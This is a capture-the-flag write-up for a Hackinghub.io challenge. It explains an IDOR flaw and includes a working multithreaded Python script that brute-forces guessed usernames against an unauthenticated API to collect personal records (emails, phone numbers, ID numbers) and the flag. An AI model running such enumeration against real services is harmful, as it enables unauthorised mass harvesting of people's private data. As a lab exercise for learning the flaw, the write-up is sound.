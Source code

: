 ```yaml
---
author: clausmalver
title: Ghost API - Hackinghub.io
description: 
date: 2025-04-08
categories: [CTF]
tags: [ctf, Hackinghub.io]
---
```


# Ghost API writeup from hackinghub.io
For this CTF challenge, we are given the endpoint `https://z5dgz12o.eu2.ctfio.com/api/userInfo/showUserDetails/jrodriguez75` (please note that the endpoint might difer from mine due to the instance spawned). The objective is to leak confidential information from the API. There is no authorization required to access it, making it a case of an IDOR (Insecure Direct Object References) vulnerability. If you want to know more about IDOR vulnerabilities you can check these out: [OWASP IDOR Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html) or [Portswigger IDOR](https://portswigger.net/web-security/access-control/idor)

From the challenge description, we are expected to enumerate possible usernames stored in the database and the disclosure of their PII.

**The application's API is vulnerable to an IDOR that exposes sensitive user information. However, there's a twist — you'll need to understand the pattern behind how usernames are generated to fully exploit this vulnerability. Can you decipher the username creation logic and access the hidden information?**

**An example username might be: `jrodriguez75`**

When visiting the endpoint, the output looks like this:

```json
{
  "estado": "éxito",
  "datos": {
    "nombre_usuario": "jrodriguez75",
    "nombre": "J",
    "apellido": "Rodriguez",
    "correo_electronico": "jrodriguez75@ejemplo.com",
    "edad": 50,
    "telefono": "+34 693 741 885",
    "direccion": "Plaza del Sol 45, 28801",
    "carnet_identidad": "82980065K",
    "ciudad": "Ciudad de México"
  }
}
```
From this, we can infer that the username format follows a common Hispanic surname, with a lowercase letter in front and potentially a number at the end that could be a date of birth of the user when generated.
We want to try all possible combinations using:

- A single lowercase letter in front of the surname
- The surname itself
- Optionally, a number from 0 to 99 appended at the end

This gives us a pattern like: `{a..z}{surname}{0..99 | nothing}`

To automate this, I asked ChatGPT to write a Python script that generates these permutations and checks each one. I also added multithreading since there are over 50,000 combinations to try.

```python
import requests
import string
import json
import logging
from concurrent.futures import ThreadPoolExecutor, as_completed

# Logging setup
logging.basicConfig(
    filename="output.log",
    filemode="a",
    format="%(message)s",
    level=logging.INFO
)

# Top 20 common Hispanic surnames
surnames = [
    "garcia", "rodriguez", "martinez", "hernandez", "lopez",
    "gonzalez", "perez", "sanchez", "ramirez", "torres",
    "flores", "rivera", "gomez", "diaz", "reyes",
    "cruz", "morales", "ortiz", "gutierrez", "ramos"
]

base_url = "https://z5dgz12o.eu2.ctfio.com/api/userInfo/showUserDetails/"
MAX_THREADS = 20

# Generate all username permutations
usernames = []
for letter in string.ascii_lowercase:
    for surname in surnames:
        usernames.append(f"{letter}{surname}")
        for i in range(100):
            usernames.append(f"{letter}{surname}{i}")

def check_username(username):
    url = f"{base_url}{username}"
    try:
        r = requests.get(url, timeout=5)
        if r.status_code == 200:
            try:
                data = r.json()
                pretty = json.dumps(data, indent=2)
                log_entry = f"[+] {username} -> {url}\n{pretty}\n"
            except json.JSONDecodeError:
                log_entry = f"[+] {username} -> {url}\n[!] Non-JSON Response:\n{r.text}\n"

            print(log_entry)  # Print to console
            logging.info(log_entry)  # Save to log file

    except:
        pass

# Multithreaded execution
if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=MAX_THREADS) as executor:
        futures = [executor.submit(check_username, user) for user in usernames]
        for _ in as_completed(futures):
            pass
```
If we wanted to expand the script with a dataset of spanish name and surnames, a resource like this could be helpful: (https://github.com/jvalhondo/spanish-names-surnames)

After a short amount of time, the flag appears in the terminal output along with a lot of other hits:

```json
{
  "estado": "éxito",
  "datos": {
    "nombre_usuario": "cgarcia",
    "nombre": "C",
    "apellido": "Garcia",
    "correo_electronico": "cgarcia@ejemplo.com",
    "edad": 21,
    "telefono": "+34 610 915 022",
    "direccion": "Plaza del Sol 28, 28773",
    "carnet_identidad": "29367700N",
    "ciudad": "Lima",
    "flag": "flag{9c9b9206bc76e06c6efd87fe80cfb310}"
  }
}
```
**Flag**: `flag{9c9b9206bc76e06c6efd87fe80cfb310}`

If you wan't to know more about this challenge and the real world bug bounty it comes from, you can see [NahamSec's video about it on Youtube](https://www.youtube.com/watch?v=Cw-hlmW89kA&t)
